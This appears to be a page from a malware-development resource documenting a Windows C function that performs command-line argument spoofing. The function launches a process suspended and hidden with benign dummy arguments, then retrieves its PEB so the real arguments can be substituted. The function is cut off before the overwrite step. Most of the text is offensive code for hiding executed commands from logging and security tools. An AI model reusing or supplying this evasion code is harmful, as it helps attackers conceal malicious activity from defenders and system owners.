 `CreateArgSpoofedProcess` is a function that performs argument spoofing on a newly created process. The function requires 5 arguments:

* `szStartupArgs` - The dummy arguments. These should be benign.
* `szRealArgs` - The real arguments to execute.
* `dwProcessId` - A pointer to a DWORD that receives the PID.
* `hProcess` - A pointer to a HANDLE that receives the process handle.
* `hThread` - A pointer to a DWORD that receives the process's thread handle.


```
BOOL CreateArgSpoofedProcess(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {

	NTSTATUS                      STATUS   = NULL;

	WCHAR                         szProcess [MAX_PATH];

	STARTUPINFOW                  Si       = { 0 };
	PROCESS_INFORMATION           Pi       = { 0 };

	PROCESS_BASIC_INFORMATION     PBI      = { 0 };
	ULONG                         uRetern  = NULL;

	PPEB                          pPeb     = NULL;
	PRTL_USER_PROCESS_PARAMETERS  pParms   = NULL;


	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	Si.cb = sizeof(STARTUPINFOW);

	// Getting the address of the NtQueryInformationProcess function
	fnNtQueryInformationProcess pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");
	if (pNtQueryInformationProcess == NULL)
		return FALSE;


	lstrcpyW(szProcess, szStartupArgs);

	if (!CreateProcessW(
		NULL,
		szProcess,
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW,      // creating the process suspended & with no window
		NULL,
		L"C:\\Windows\\System32\\",               // we can use GetEnvironmentVariableW to get this Programmatically
		&Si,
		&Pi)) {
		printf("\t[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}


	// Getting the PROCESS_BASIC_INFORMATION structure of the remote process which contains the PEB address
	if ((STATUS = pNtQueryInformationProcess(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), &uRetern)) != 0) {
		printf("\t[!] NtQueryInformationProcess Failed With Error : 0x%0.8X \n", STATUS);
```